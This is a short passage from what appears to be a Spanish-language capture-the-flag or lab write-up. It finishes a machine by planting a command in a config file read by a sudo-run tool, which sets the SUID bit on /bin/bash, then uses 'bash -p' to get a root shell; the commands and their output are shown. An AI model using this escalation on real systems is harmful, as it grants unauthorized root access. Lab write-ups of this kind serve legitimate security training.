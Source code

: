 ```shell
cd /tmp
echo '/bin/bash -c "chmod u+s /bin/bash"' > ./report_tool.conf
chmod +x report_tool.conf
sudo /usr/local/bin/report_tool
```

Ahora si vemos que permisos tiene la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Veremos que ha funcionado, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto veremos que seremos `root`, por lo que habremos terminado la maquina.
